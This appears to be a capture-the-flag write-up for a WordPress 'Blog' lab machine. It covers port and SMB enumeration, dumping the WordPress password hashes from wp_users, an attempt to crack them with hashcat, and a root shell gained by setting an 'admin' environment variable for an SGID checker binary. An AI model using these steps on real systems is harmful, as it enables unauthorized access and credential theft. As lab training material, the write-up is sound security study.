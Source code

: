 ```shell
select * from wp_users;
#dumps hashes for bjoel and kwheel

#crack hashes
vim hash.txt

hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/kaonashi.txt
#this does not help
#we are unable to crack hashes for bjoel

#check the unknown SGID binary
ls -la /usr/sbin/checker
#owned by root

/usr/sbin/checker
#prints 'Not an Admin'

#check the binary
strace /usr/sbin/checker

ltrace /usr/sbin/checker

#ltrace shows that the binary looks for 'admin' var

env
#there is no environment var named 'admin'

export admin=1

echo $admin

/usr/sbin/checker
#we get root shell
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - tcpwrapped
  * 139 - netbios-ssn
  * 445 - microsoft-ds - Samba smbd 4.7.6

* We can start enumeration of SMB shares using ```smbclient``` - there is a share that can be accessed by us.

* The share contains a .jpg file, a .mp4 file and a .png file - we can use ```mget``` to transfer all files, and inspect them in our machine.

* We can use stego tools for the files, but we do not get anything useful.

* We can now start exploring and enumerating the webpage on port 80; it is a blog page.

* ```feroxbuster``` gives us certain directories that make it seem like the blog page is using ```Wordpress```.
